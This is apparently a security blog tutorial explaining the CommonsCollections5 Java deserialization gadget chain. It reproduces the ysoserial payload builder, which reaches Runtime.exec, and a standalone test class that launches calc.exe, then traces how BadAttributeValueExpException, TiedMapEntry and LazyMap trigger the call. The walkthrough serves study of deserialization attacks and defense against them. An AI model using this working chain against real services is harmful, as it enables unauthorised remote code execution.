



CommonsCollection5
The CommonsCollections5 payload is largely similar to the CommonsCollections1 payload.
We use the same chain of transformers here as well.
However, the entry point is different.
In this payload we use a class called BadAttributeValueExpException to reach our goal.
Let’s jump in and see how the payload looks.
public BadAttributeValueExpException getObject(final String command) throws Exception {
final String[] execArgs = new String[] { command };
// inert chain for setup
final Transformer transformerChain = new ChainedTransformer(
new Transformer[] { new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, execArgs),
new ConstantTransformer(1)
};
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
Reflections.setAccessible(valfield);
valfield.set(val, entry);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
return val;
}
As we already saw with ClassCastException and readObject(), a similar flow happens here.
Let’s check the source of BadAttributeValueExpException.
The BadAttributeValueExpException class contains the following code block:
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
ObjectInputStream.GetField gf = ois.readFields();
Object valObj = gf.get("val", null);
if (valObj == null) {
val = null;
} else if (valObj instanceof String) {
val = valObj;
} else if (System.getSecurityManager() == null
|| valObj instanceof Long
|| valObj instanceof Integer
|| valObj instanceof Float
|| valObj instanceof Double
|| valObj instanceof Byte
|| valObj instanceof Short
|| valObj instanceof Boolean) {
val = valObj.toString();
} else {
val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
}
}
A custom readObject() implementation.
This means that even if a ClassCastException occurs, the code inside readObject() will still execute.
Looking at the code, the point of interest is the call to valObj.toString().
If you look closely, valObj is set from gf.get("val").
This class also has a val field that is set via its constructors, which in our payload we initially pass as null.
So, if we can control this field, we can decide which toString() gets executed.
In our payload, we set the val field (via reflection) to an entry, which is a TiedMapEntry object.
We won’t dive into the full details of TiedMapEntry here, but in short: it implements Map.Entry and defines its own toString().
Therefore, if we pass that entry (a TiedMapEntry instance) into BadAttributeValueExpException, the toString() of TiedMapEntry will be invoked.
Looking deeper into that toString(), it calls getValue(), which in turn calls map.get(...).


Returning to the payload, the Map we use is LazyMap.
We use LazyMap via its decorate() method, which takes a backing HashMap and a Transformer.
Let’s review LazyMap#get():
- If the key is present, it returns the existing value.
- If the key is not present, it applies the provided Transformer to the key to compute a value, stores that value into the backing map, and returns it.
public Object get(Object key) {
// create value for key if key is not currently in the map
if (map.containsKey(key) == false) {
Object value = factory.transform(key);
map.put(key, value);
return value;
}
return map.get(key);
}
So, when TiedMapEntry calls map.get(), the LazyMap#get() implementation is triggered.
In that method, if the requested key is absent, then transformer.transform() is invoked.
The transformer here is user-supplied and gets initialized into the LazyMap’s factory variable via its constructor.

The Transformer.transform() call is what actually executes our code — as we discussed earlier.
Putting it all together: the payload leverages BadAttributeValueExpException to reach the transformer, like this:
ObjectInputStream.readObject()
BadAttributeValueExpException.readObject()
TiedMapEntry.toString()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
Below is a slight modification of the previous code, where we tested the payload on Java 8u202 in a local instance.
Instead of using reflection to set the val variable, we directly passed it to the BadAttributeValueExpException() constructor.
However, we cannot use the same approach for gadget chain construction because:
If we pass the entry directly to BadAttributeValueExpException, its constructor will immediately call toString(), leading to instant code execution.
This prevents us from crafting a serialized payload.
That is why reflection is used to set the val variable at a later stage.
This delay ensures we can build the serialized payload without triggering execution prematurely.
This also explains why, in most ysoserial payloads, reflection is used to adjust fields in later stages — allowing payload construction without immediate code execution in the local instance.
import org.apache.commons.collections.functors.*; import org.apache.commons.collections.keyvalue.TiedMapEntry; import org.apache.commons.collections.map.LazyMap; import org.apache.commons.collections.Transformer; import javax.management.BadAttributeValueExpException; import java.util.HashMap; import java.util.Map; public class cc5 { public static void main(String args[]) { ConstantTransformer tr1 = new ConstantTransformer(Runtime.class); InvokerTransformer tr2 = new InvokerTransformer( "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]} ); InvokerTransformer tr3 = new InvokerTransformer( "invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]} ); InvokerTransformer tr4 = new InvokerTransformer( "exec", new Class[]{String.class}, new String[]{"calc.exe"} ); Transformer tr5 = new ChainedTransformer( new Transformer[]{tr1, tr2, tr3, tr4} ); final Map innerMap = new HashMap(); final Map lazyMap = LazyMap.decorate(innerMap, tr5); TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo"); BadAttributeValueExpException val = new BadAttributeValueExpException(entry); } }

Summary:
- The gadget uses
BadAttributeValueExpExceptionas the entry point during deserialization. - We set the internal
valfield to a craftedTiedMapEntryvia reflection. BadAttributeValueExpException.readObject()invokesval.toString(), triggeringTiedMapEntry.toString().TiedMapEntry.toString()callsgetValue(), which leads toLazyMap.get().- If the key is missing,
LazyMapcallstransform()using a user-controlledTransformerchain. - This chain executes arbitrary code via
Runtime.getRuntime().exec(). - Reflection is used to set the
valfield after object creation to avoid premature execution — this is critical for payload generation.
Thats it for Today.
Thanks For Reading.
Happy Hacking.
You can connect with me at: